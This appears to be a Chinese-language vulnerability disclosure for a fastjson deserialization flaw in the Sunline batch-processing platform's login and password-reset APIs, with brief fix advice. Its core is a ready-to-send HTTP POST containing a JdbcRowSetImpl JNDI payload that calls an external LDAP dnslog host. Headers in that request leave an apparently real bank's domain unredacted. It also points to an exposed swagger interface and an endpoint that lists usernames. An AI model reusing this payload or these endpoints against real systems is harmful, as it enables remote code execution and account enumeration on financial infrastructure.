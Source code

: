 sunline

长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞地址：

https://xxxxxxx/loader/api/uiAuth/login

https://xxxxxxx/loader/api/uiAuth/reset-password-sendmail
         
漏洞描述：长亮sunline跑批平台接口存在fastjson命令执行漏洞

漏洞详情：

1、接口存在fastjson命令执行漏洞

![image](https://github.com/ranhn/Sunline/assets/107679328/2a018bf1-faf5-4fef-84a0-e16bc44661d5)

POST /loader/api/uiAuth/reset-password-sendmail HTTP/1.1

Host: xxxxxx.com.ph

Cookie: acw_tc=0bc1a14316933660392643949e455a577eede41c8a82de5b661a2f4841446e; 

JSESSIONID=D34E1ED55B1F03E9068D984A58F487D8

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0

Accept: /

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Referer: https://bk-assistant.ownbank.com.ph/

Content-Type: application/json

If-Modified-Since: 0

Content-Length: 129

Origin: https://bk-assistant.ownbank.com.ph

Sec-Fetch-Dest: empty

Sec-Fetch-Mode: cors

Sec-Fetch-Site: same-origin

Pragma: no-cache

Cache-Control: no-cache

Te: trailers

Connection: close

{“@type”:“com.sun.rowset.JdbcRowSetImpl”,“dataSourceName”:“ldap://r0mkls.dnslog.cn”, “autoCommit”:true}
![image](https://github.com/ranhn/Sunline/assets/107679328/f0994785-72c3-4d76-ba7b-e17b6ab1a77a)
2、同时存在接口文档暴露问题

https://xxxxxxx.com.ph/swagger-ui.html

![image](https://github.com/ranhn/Sunline/assets/107679328/4309d4a0-e3de-49c9-baea-c0498f59ca56)

https://xxxxxxx.com.ph/loader/syncResourcesNotify/users 返回用户名

![image](https://github.com/ranhn/Sunline/assets/107679328/44cfc0a8-91cd-479a-aecc-1ed2b51d16e8)

漏洞版本：版本未知（没有版本概念）

修复建议：

1、升级到最新版本。

2、接口敏感信文档做鉴权。
